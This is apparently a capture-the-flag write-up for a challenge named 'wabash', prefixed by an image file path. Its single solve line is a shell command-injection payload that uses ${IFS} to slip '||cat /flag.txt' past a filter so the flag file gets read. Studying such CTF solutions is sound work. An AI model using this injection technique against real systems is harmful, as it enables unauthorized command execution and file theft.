 # Writeup for wabash by CygnusX

Solve:  can use ```${IFS}||${IFS}cat${IFS}/flag.txt``` to get the flag, wa will only be appended to `${IFS}` which is interpreted by bash as ` \t\n`